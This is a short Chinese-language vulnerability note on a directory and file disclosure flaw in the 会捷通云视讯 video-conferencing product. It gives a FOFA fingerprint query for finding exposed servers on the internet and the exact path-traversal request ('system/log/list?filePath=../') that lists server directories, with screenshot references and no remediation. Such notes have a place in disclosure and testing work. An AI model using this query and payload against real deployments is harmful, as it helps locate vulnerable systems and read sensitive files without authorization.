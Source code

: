 # 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

会捷通云视讯

## FOFA

body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![zc-1](resource/会捷通云视讯/zc-1.png)

访问Url

```
/him/api/rest/V1.0/system/log/list?filePath=../
```

![zc-2](resource/会捷通云视讯/zc-2.png)